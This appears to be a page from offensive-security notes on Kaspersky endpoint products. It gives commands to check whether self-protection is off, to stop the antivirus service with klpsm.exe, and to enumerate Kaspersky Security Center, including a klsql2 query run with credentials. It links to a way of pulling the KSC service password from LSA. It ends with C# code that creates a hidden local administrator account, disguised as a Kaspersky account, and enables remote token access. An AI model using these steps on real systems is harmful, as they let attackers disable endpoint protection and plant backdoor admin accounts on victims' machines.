 ```yaml
---
description: Kaspersky Endpoint Security (KES) / Kaspersky Security Center (KSC) / Kaspersy Internet Security (KIS)
---
```


# KES / KSC / KIS

- [https://api-router.kaspersky-labs.com/downloads/search/v3/b2b](https://api-router.kaspersky-labs.com/downloads/search/v3/b2b?productcode=2911379&sites=https%3A%2F%2Fwww.kaspersky.com)




## KES / KIS

- [https://nasbench.medium.com/lolbined-using-kaspersky-endpoint-security-kes-installer-to-execute-arbitrary-commands-1c999f1b7fea](https://nasbench.medium.com/lolbined-using-kaspersky-endpoint-security-kes-installer-to-execute-arbitrary-commands-1c999f1b7fea)



### Scan Exclusions

Potential scan exclusions:

- `C:\Windows\System32\LogFiles\`
- `C:\Windows\System32\inetsrv\`
- `C:\Windows\ClusterStorage\`
- `C:\ProgramData\Microsoft\Windows\Hyper-V\`



### Stop Service

- [https://www.exploit-db.com/docs/english/40433-deactivating-endpoint-protection-software-in-an-unauthorized-manner-(revisited).pdf](https://www.exploit-db.com/docs/english/40433-deactivating-endpoint-protection-software-in-an-unauthorized-manner-(revisited).pdf)

Check if KES Self-Defense is enabled:

```
PS > (Get-ItemProperty -Path "HKLM:\SOFTWARE\WOW6432Node\KasperskyLab\protected\KES\settings" -Name "EnableSelfProtection").EnableSelfProtection
```

Check if KES external management of system services is allowed:

```
PS > (Get-ItemProperty -Path "HKLM:\SOFTWARE\WOW6432Node\KasperskyLab\protected\KES\settings" -Name "AllowServiceStop").AllowServiceStop
```

If `EnableSelfProtection` is **0** and `AllowServiceStop` is **1**, then it's possible [to manipulates KES application from the command line](https://support.kaspersky.com/KESWin/11.1.0/en-us/178723.htm) via [klpsm.exe](https://www.pconlife.com/viewfileinfo/klpsm-exe/):

```
Cmd > cd "C:\Program Files (x86)\Kaspersky Lab\Kaspersky Endpoint Security for Windows"
Cmd > klpsm.exe stop_avp_service
Cmd > klpsm.exe start_avp_service
```



### Remove Product

- [https://support.kaspersky.com/common/uninstall/1464](https://support.kaspersky.com/common/uninstall/1464)
- [https://support.kaspersky.com/14674](https://support.kaspersky.com/14674)




## KSC

- [https://www.kaspersky.ru/small-to-medium-business-security/downloads/endpoint](https://www.kaspersky.ru/small-to-medium-business-security/downloads/endpoint)
- [https://support.kaspersky.com/KSC/13/ru-RU/158830.htm](https://support.kaspersky.com/KSC/13/ru-RU/158830.htm)
- [https://habr.com/ru/companies/bastion/articles/598769/](https://habr.com/ru/companies/bastion/articles/598769/)

| Key                      | Value                                    |
|--------------------------|------------------------------------------|
| Default MMC Port         | 13291                                    |
| Remote Installation Path | `%WINDIR%\Temp\KAV Remote Installations` |



### Enumeration

```
Cmd > netstat -ano | findstr 13000
Cmd > "C:\Program Files (x86)\Kaspersky Lab\NetworkAgent\klnagchk.exe"
Cmd > reg query HKLM\SOFTWARE\WOW6432Node\KasperskyLab\Components\34\1103\1.0.0.0\Statistics\AVState /s /v Protection_AdmServer
PS > Get-ItemProperty HKLM:\SOFTWARE\WOW6432Node\KasperskyLab\Components\34\1103\1.0.0.0\Statistics\AVState -Name Protection_AdmServer
Cmd > C:\PROGRA~2\KASPER~1\KASPER~1\klsql2.exe -i query.sql -u administrator -p "Passw0rd!" -o query.xml
```



### KlScSvc in LSA

- [https://telegra.ph/Crackmapexec-beryot-sluzhebnyj-parol-konsoli-Kaspersky-Security-Center-12-08](https://telegra.ph/Crackmapexec-beryot-sluzhebnyj-parol-konsoli-Kaspersky-Security-Center-12-08)

{% embed url="https://twitter.com/snovvcrash/status/1494660022583840774" %}



### Add Local Admin

{% code title="KSCTools.cs" %}
```csharp
using System;
using System.DirectoryServices;
using Microsoft.Win32;

namespace KSCTools
{
    class AccountManagement
    {
        static void Main()
        {
            try
            {
                DirectoryEntry AD = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer");
                DirectoryEntry NewUser = AD.Children.Add("KLAdmin", "user");
                NewUser.Invoke("SetPassword", new object[] { "Passw0rd!" });
                NewUser.Invoke("Put", new object[] { "Description", "Kaspersky Local Administrator" });
                NewUser.CommitChanges();
                DirectoryEntry grp = AD.Children.Find("Administrators", "group");
                grp?.Invoke("Add", new object[] { NewUser.Path.ToString() });

                using (RegistryKey key = Registry.LocalMachine.CreateSubKey(@"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"))
                {
                    key?.SetValue("LocalAccountTokenFilterPolicy", 1, RegistryValueKind.DWord);
                }
            }
            catch { }
        }
    }
}
```
{% endcode %}
